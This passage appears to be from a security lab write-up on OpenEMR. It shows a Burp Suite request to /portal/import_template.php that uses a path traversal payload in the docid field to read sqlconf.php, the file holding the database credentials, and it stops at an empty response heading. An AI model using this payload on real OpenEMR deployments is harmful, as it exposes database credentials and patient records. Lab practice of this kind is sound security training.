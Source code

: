 ```http
 * is configurable via sqlconf.php.📌
 *
 * If needed, the instance can be used in a transactional context:
 * <code>
 *     $database = \common\database\Connector::Instance();
 *     $entityManager = $database->entityManager;
 *     $entityManager->getConnection()->beginTransaction();
 *     try {
 *         // Entity work here...
 *         $entityManager->persist($someEntityToBePersisted);
 *         $entityManager->flush();
 *         $entityManager->getConnection()->commit();
 *     } catch (Exception $e) {
 *         $entityManager->getConnection()->rollBack();
 *         throw $e;
 *     }
 * </code>
 *
 * Copyright (C) 2016 Matthew Vita <matthewvita48@gmail.com>
 *
 * LICENSE: This program is free software; you can redistribute it and/or
 * modify it under the terms of the GNU General Public License
 * as published by the Free Software Foundation; either version 2
 * of the License, or (at your option) any later version.
 * This program is distributed in the hope that it will be useful,
 * but WITHOUT ANY WARRANTY; without even the implied warranty of
 * MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
 * GNU General Public License for more details.
 * You should have received a copy of the GNU General Public License
 * along with this program. If not, see <http://opensource.org/licenses/gpl-license.php>.
 *
 * @package OpenEMR
 * @author  Matthew Vita <matthewvita48@gmail.com>
 * @link    http://www.open-emr.org
 */

[...]
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /portal/import_template.php HTTP/2
Host: a8hmqro88nfya14sr515fgj87.eu-central-7.attackdefensecloudlabs.com
Cookie: OpenEMR=fij3jrqm4psf4a3i5tega9dni2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 71

mode=get&docid=../../../../../../var/www/html/sites/default/sqlconf.php📌
```
`HTTP Response`: